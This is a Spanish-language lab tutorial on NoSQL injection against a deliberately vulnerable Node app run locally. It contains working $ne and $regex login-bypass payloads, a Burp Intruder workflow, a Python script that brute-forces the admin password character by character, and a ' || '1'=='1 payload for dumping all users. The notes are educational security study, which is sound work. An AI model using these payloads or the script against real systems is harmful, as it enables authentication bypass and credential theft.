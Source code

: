-----
- Tags: #vulnerabilidades #web #NOSQL
----
# Definición

> Las **inyecciones NoSQL** son una vulnerabilidad de seguridad en las aplicaciones web que utilizan bases de datos **NoSQL**, como **MongoDB**, **Cassandra** y **CouchDB**, entre otras. Estas inyecciones se producen cuando una aplicación web permite que un atacante envíe datos maliciosos a través de una consulta a la base de datos, que luego puede ser ejecutada por la aplicación sin la debida validación o sanitización.

La inyección NoSQL funciona de manera similar a la inyección SQL, pero se enfoca en las vulnerabilidades específicas de las bases de datos NoSQL. En una inyección NoSQL, el atacante aprovecha las consultas de la base de datos que se basan en **documentos** en lugar de tablas relacionales, para enviar datos maliciosos que pueden manipular la consulta de la base de datos y obtener información confidencial o realizar acciones no autorizadas.

A diferencia de las inyecciones SQL, las inyecciones NoSQL explotan la falta de validación de los datos en una consulta a la base de datos NoSQL, en lugar de explotar las debilidades de las consultas SQL en las **bases de datos relacionales**.

-----
# Explotación de inyección NOSQL en laboratorio

Lo primero que haremos será clonar el repositorio de Github [https://github.com/Charlie-belmer/vulnerable-node-app](https://github.com/Charlie-belmer/vulnerable-node-app) para montar el laboratorio en Docker, realizando un ``docker-compose up -d``.

Nos dirigimos al puerto que realiza el Port Forwarding en el contenedor, el cual es el *puerto 4000*. http://localhost:4000 y reseteamos la base de datos presionando el botón *Reset DB*. En la web dispondremos de dos secciones, una es el panel de Login, y la otra será una sección para buscar los usuarios registrados en la web por su nombre.

-----

Para realizar la explotación NOSQL nos apoyaremos de un **repositorio en Github** que utilizamos anteriormente *PayloadsAllTheThings* https://github.com/swisskyrepo/PayloadsAllTheThings filtrando por NOSQL, acá encontraremos varios Payloads que se pueden utilizar para verificar la vulnerabilidad, también utilizaremos la web https://book.hacktricks.xyz/pentesting-web/nosql-injection, recomiendo leer por completos ambos contenidos para aprender en profundidad todo.

Tenemos que entender que este tipo de inyecciones se apoyan mucho de las "**Condiciones**" ya que podemos inyectar una condición especifica en la petición para autenticarnos o para conseguir credenciales, unos ejemplos de esto serían las **expresiones regulares** (Regex), las condiciones **Not Equal**, **Greater than**, **Less than**, etc.

----
## NOSQL con condiciones

- ``username[$ne]=toto&password[$ne]=toto`` acá estamos diciendo que el usuario **NO ES IGUAL** (``ne``) a "toto" y que la contraseña **NO ES IGUAL** (``ne``) a "toto"

Podemos aprovecharnos de esa condición que colocamos para que nos de mediante un estado **Booleano True** pistas para obtener privilegios o autenticarnos directamente

Nosotros sabemos que el usuario "*guest*" existe porque la web en la sección de búsqueda de usuarios nos dan su nombre como ejemplo y como usuario válido, por lo tanto podríamos aprovecharnos de eso para encontrar su contraseña de la siguiente manera.

(Es importante entender que nosotros al poseer un ``Content-Type`` *json* debemos **colocar la petición en ese formato**, esto está contemplado en **PayloadsAllTheThings**)

- ``username=guest&password[$ne]=probando123``

![[NOSQLI 1.png]]

----
## NOSQL con Regex

Podríamos obtener mediante **fuerza bruta manual o automatizada** las credenciales para un usuario válido por ejemplo utilizando **expresiones regulares** en la petición, indicando que la contraseña comienza por la letra "*a*" tal que así ``^a``.

- ``{"username": {"$eq": "admin"}, "password": {"$regex": "^a" }}`` donde en el campo ``^a`` podríamos iterar por todos los caracteres existentes, hasta que nos loguee en la cuenta de **admin**.

Iríamos probando de la *a-z, A-Z, 0-9*, etc.

![[NOSQLI 2.png]]

![[NOSQLI 3.png]]

Realizar esto de forma manual puede ser tedioso, por lo tanto mas adelante realizaremos un script en **Python3** para que lo haga por nosotros.

-----

Esto también se podría utilizar para **hallar todos los usuarios existentes** en la base de datos, **fuzzeando caracter por caracter** con ``^a`` en el campo "*username*" pasando por todos los caracteres existentes.

Para hacer todo esto mas rápido podríamos utilizar el **Intruder** de Burpsuite para iterar por todos los caracteres existentes.

![[NOSQLI 4.png]]

![[NOSQLI 5.png]]

![[NOSQLI 6.png]]

Luego le damos a **Start Attack** y esperamos a que nos de las combinaciones. Cabe destacar que en este laboratorio **hay dos usuarios** que empiezan por la letra "*a*" y **dos usuarios** que empiezan por la letra "*g*", por lo tanto **solo nos mostrará la primer coincidencia**, para obtener los usuarios que comiencen con los mismos caracteres, debemos hacer un script en Python o emplear un diccionario mas especifico con combinaciones como "*aa*" "*ab*" "*ac*", etc.

![[NOSQLI 7.png]]
## NOSQL con script Python (Regex)

El siguiente script que crearemos será útil para hallar contraseñas válidas para un usuario dado.

```python
#!/usr/bin/python3

from pwn import *
import requests, time, sys, signal, string

# Ctrl+C --------------------------------
def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)
#----------------------------------------

# Variables globales --------------------
login_url = "http://localhost:4000/user/login"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits
# Variables globales --------------------


# Función del script que hará todo --------------------------------------------------------------------
def makeNOSQLI():

# Barras de progreso (PWNTOOLS) -----------------------------
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)

    p2 = log.progress("Password")
# Barras de progreso (PWNTOOLS)-----------------------------

    password = "" # Variable Password donde se irán almacenando los caracteres válidos.

    for position in range(1, 100): # Iteramos del 1 al 100

        for character in characters:

            post_data = '{"username": "admin", "password": {"$regex": "^%s%s" }}' % (password, character) # Petición por POST almacenada en variable utilizando "%s%s" donde el primer %s irá "password" y luego "character", como password no vale nada, a medida que se realicen las iteraciónes del 1 al 100, irá pasando de caracter en caracter.

            p1.status(post_data) # Actualizamos el estado de la barra de progreso de PWN TOOLS para que nos muestre siempre el contenido de "post_data" actualizandose.

            headers = {'Content-Type': 'application/json'} # Especificamos en la petición POST que tendrá una cabecera de tipo "json" (Esta la sacamos del Burpsuite observando el Content Type)

            r = requests.post(login_url, headers=headers, data=post_data) # Almacenamos la respuesta de la petición con sus códigos de estado y demás.

            if "Logged in as user" in r.text: # Condicional para indicar que si en el texto de la respuesta se encuentra la cadena "Logged in as user" añada el caracter que brindó esa respuesta a la variable password.
                password += character
                p2.status(password) # Colocamos la barra de progreso para que nos vaya mostrando como van añadiendose los caracteres uno a uno.
                break # Break para que cuando encuentre la coincidencia que brinde la cadena de texto, pase a la siguiente vuelta del range(1, 100)

if __name__ == '__main__':

    makeNOSQLI()
```

De esta forma obtendríamos la contraseña del usuario que especifiquemos en la variable "*post_data*", si quisiéramos conseguir todos los usuarios existentes, podríamos modificar la variable para que itere por los usuarios y deberíamos quitar el "BREAK" del condicional para que no se detenga y encuentre los usuarios que posean los mismos caracteres como es el caso de "*guest*" con el usuario "*ghost*" que están en este laboratorio.

# ``' || '1'=='1`` con NOSQLI

Al igual que en las SQLI, en **NOSQLI** podemos realizar un el típico ``'or 1=1-- -`` para **obtener mas datos** en una web (Si esta es vulnerable claramente), esto se emplea aplicando lo mismo que en una SQLI, pero **cambiando algunos caracteres**. 
Normalmente cuando se acontecen NOSQLI lo que se suele emplear por detrás es **MongoDB**, por lo tanto si observamos en *PayloadsAllTheThings* o en *HackTricks*, encontraremos payloads tales como estos.

![[NOSQLI 8.png]]

Si colocamos esto en el campo de búsqueda de usuarios podremos buscar todos los usuarios existentes sin saber sus nombres, esto serviría para comenzar a conseguir sus contraseñas con los ejemplos anteriores.

![[NOSQLI 9.png]]

# Consejo extra

Hay algo que podemos emplear a la hora de realizar una auditoría a un servicio web, y es que si encontramos algún campo en el que podamos listar datos de cualquier tipo, como por ejemplo el *User Lookup* en nuestro caso, es muy común que al interceptar la petición con **Burpsuite**, notar que está siendo tramitada por *GET*, por lo tanto podemos intentar cambiar el método de petición a *POST* y si esta es interpretada de forma válida probar cambiar el formato *Content-Type* que posea, por el formato ``Content-Type: application/json``, para validar si nos interpreta la petición por *POST* y con formato *json*, de esta manera si detectamos que nos interpreta ambas cosas, podríamos comenzar a la explotación **NOSQLI** con *Regex* o con *Condicionales*.